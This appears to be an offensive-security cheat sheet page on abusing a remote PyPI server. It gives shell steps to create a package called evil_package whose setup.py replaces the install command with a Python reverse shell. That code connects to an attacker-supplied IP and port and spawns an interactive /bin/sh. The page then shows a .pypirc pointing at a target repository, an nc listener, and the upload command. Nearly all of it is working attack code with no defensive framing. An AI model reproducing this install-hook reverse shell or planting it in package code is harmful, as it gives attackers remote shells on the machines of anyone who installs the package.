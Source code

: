 ```yaml
---
title: "Pypi"
date: 2024-7-19
tags: ["Exploitation", "Python", "Pypi", "Package", "RCE"]
---
```


### Abuse #1: Remote Pypi Server

#### 1. Create files

```console
mkdir evil_package
```

```console
mkdir evil_package/evil_package
```

```console
cd evil_package
```

```console
touch README.md
```

```console
touch evil_package/__init__.py
```

```console
touch setup.cfg
```

```console
touch setup.py
```

#### 2. Replace setup.py

```console
#!/usr/bin/env python3

from setuptools.command.install import install
from setuptools import setup
import os
import socket
import subprocess

class Exploit(install):
    def run(self):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("<LOCAL_IP>",<LOCAL_PORT>)) # CHANGE HERE
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p = subprocess.call(["/bin/sh", "-i"])

setup(name="evil_package",
      version="1.0.0",
      description="Evil Package",
      author="user",
      author_email="user@<DOMAIN>",
      url="http://<DOMAIN>",
      license="MIT",
      zip_safe=False,
      cmdclass={"install": Exploit})
```

#### 3. Create ~/.pypirc

```console
[distutils]
index-servers =
  <EXAMPLE>
[<EXAMPLE>]
repository: http://<TARGET_DOMAIN>
username: <USER>
password: <PASSWORD>
```

#### 4. Exploit

```console
# Open a nc listener
rlwrap nc -lvnp <LOCAL_PORT>
```

<br>

```console
# Create an archive
python3 setup.py sdist
```

```console
# Upload
python3 setup.py sdist upload -r <EXAMPLE>
```
